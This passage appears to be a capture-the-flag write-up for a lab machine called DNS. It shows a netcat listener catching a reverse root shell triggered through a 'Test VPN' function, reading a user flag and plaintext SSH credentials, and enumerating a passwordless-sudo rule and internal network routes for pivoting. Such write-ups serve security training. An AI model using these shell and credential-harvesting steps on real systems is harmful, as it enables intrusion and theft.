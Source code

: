 We can just spawn a netcat on the box and trigger the `Test VPN` function to get a shell:

```
dave@ubuntu:~$ nc -lvnp 2323
Listening on [0.0.0.0] (family 0, port 2323)
Connection from [192.168.122.4] port 2323 [tcp/*] accepted (family 2, sport 60596)
bash: cannot set terminal process group (1131): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html# id;hostname
id;hostname
uid=0(root) gid=0(root) groups=0(root)
DNS
root@DNS:/var/www/html#
```

User flag found in Dave's directory:

```
root@DNS:/home/dave# cat user.txt
cat user.txt
a4947...
```

There's also SSH credentials in there:

```
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
```

### Priv Esc

In the web directories, there's a file that reveals two additional network segments:
- 192.168.1.0/24
- 192.168.5.0/24

```
root@DNS:/var/www/DNS# ls -la
total 20
drwxrwxr-x 3 root root 4096 Jul 17 12:46 .
drwxr-xr-x 4 root root 4096 Jul 17 12:47 ..
drwxrwxr-x 2 root root 4096 Jul 17 10:34 desktop
-rw-rw-r-- 1 root root  214 Jul 17 10:37 interfaces
-rw-rw-r-- 1 root root   27 Jul 17 10:35 visudo

root@DNS:/var/www/DNS# cat visudo
www-data ALL=NOPASSWD: ALL

root@DNS:/var/www/DNS# cat interfaces
auto ens3
iface ens3 inet static
address 192.168.122.4
netmask 255.255.255.0
up route add -net 192.168.5.0 netmask 255.255.255.0 gw 192.168.122.5
up route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.28
```
